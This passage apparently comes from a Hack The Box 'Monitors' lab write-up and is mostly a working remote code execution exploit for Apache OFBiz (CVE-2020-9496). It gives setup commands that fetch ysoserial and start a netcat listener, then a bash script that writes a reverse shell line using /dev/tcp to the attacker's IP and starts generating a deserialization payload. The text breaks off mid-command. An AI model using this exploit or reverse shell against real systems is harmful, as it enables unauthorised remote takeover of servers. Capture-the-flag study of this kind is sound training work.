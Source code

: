 <img width="960" height="172" alt="image" src="https://github.com/user-attachments/assets/51621d6e-8610-43f5-a5aa-2dcd8ac0c448" />

```bash
# Download ysoserial
wget https://github.com/frohoff/ysoserial/releases/download/v0.0.6/ysoserial-all.jar

# Start HTTP server and netcat listener
python3 -m http.server 8000
nc -lnvp 9002

# Execute exploit
bash 50178.sh -i 10.10.14.50 -p 9002
```

**Modified Exploit Script:**

```bash
# 50178.sh
#!/usr/bin/env bash

# Exploit Title: Apache OfBiz 17.12.01 - Remote Command Execution (RCE)
# CVE: CVE-2020-9496
# Corrected version for HTB Monitors

url='https://127.0.0.1'
port=8443

function helpPanel(){
    echo -e "\nUsage:"
    echo -e "\t[-i] Attacker's IP"
    echo -e "\t[-p] Attacker's Port"
    echo -e "\t[-u] Target URL (default: https://127.0.0.1)"
    echo -e "\t[-r] Target Port (default: 8443)"
    echo -e "\t[-h] Show help pannel"
    exit 1
}

function ctrl_c(){
    echo -e "\n\n[!] Exiting...\n"
    exit 1
}

trap ctrl_c INT

function webRequest(){
    echo -e "\n[*] Creating a shell file with bash\n"
    echo -e "#!/bin/bash\n/bin/bash -i >& /dev/tcp/$ip/$ncport 0>&1" > shell.sh
    
    echo -e "[*] Checking for ysoserial..."
    # Check if ysoserial exists locally first
    if [ ! -f "ysoserial-all.jar" ]; then
        echo -e "[!] ysoserial-all.jar not found in current directory"
        echo -e "[*] Please ensure ysoserial-all.jar is in the current directory"
        echo -e "[*] You can get it from: https://github.com/frohoff/ysoserial/releases/download/v0.0.6/ysoserial-all.jar"
        exit 1
    fi
    
    echo -e "[*] Testing connection to target..."
    response_test=$(curl -s -k "$url:$port/webtools/control/xmlrpc" -w "%{http_code}" -o /dev/null)
    echo -e "[*] Target response code: $response_test"
    
    echo -e "[*] Generating first payload (download shell)..."
    # Use Java 11 with proper module exports
    payload=$(/usr/lib/jvm/java-11-openjdk-amd64/bin/java \
```